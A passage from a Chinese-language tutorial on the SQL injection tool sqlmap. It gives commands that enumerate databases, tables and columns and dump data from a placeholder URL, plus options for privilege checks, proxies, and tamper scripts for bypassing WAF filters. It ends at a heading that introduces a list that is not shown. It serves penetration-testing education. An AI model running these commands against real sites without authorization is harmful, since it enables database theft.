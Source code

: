 -u URL, --url=URL 目标URL。

-l LIST 从Burp或WebScarab代理的日志中解析目标。

-r REQUESTFILE 从一个文件中载入HTTP请求。

-g GOOGLEDORK 处理Google dork的结果作为目标URL。

-c CONFIGFILE 从INI配置文件中加载选项。

## 11.4. 查数据

* 查看数据库

  sqlmap -u "http://www.xxx.com/xxx.php?id=1" --dbs

* 查看表

   sqlmap -u "http://www.xxx.com/xxx.php?id=1" -D db --tables  （-D指定数据库）

* 查看字段

   sqlmap -u "http://www.xxx.com/xxx.php?id=1" -D db -T table --columns  （ -T指定表）

* 读取数据

   sqlmap -u "http://www.xxx.com/xxx.php?id=1" -D db -T table -C c1,c2 --dump  (-C指定字段）


## 11.5. 其他参数

--is-dba  当前用户权限（是否为root权限）

--dbs  所有数据库

--current-db  网站当前数据库

--users  所有数据库用户

--current-user  当前数据库用户

--random-agent  构造随机user-agent

--proxy http://127.0.0.1:8080   代理

--time-sec=TIMESEC   DBMS响应的延迟时间（默认为5秒）

## 11.6. tamper

使用SQLMap提供的tamper脚本，可在一定程度上避开应用程序的敏感字符过滤、绕过WAF规则的阻挡，继而进行渗透攻击。

用法：sqlmap -u "http://www.xxx.com/xxx.php?id=1" --dbs --tamper=t1,t2,t3

**以下为常用tamper脚本列表：**

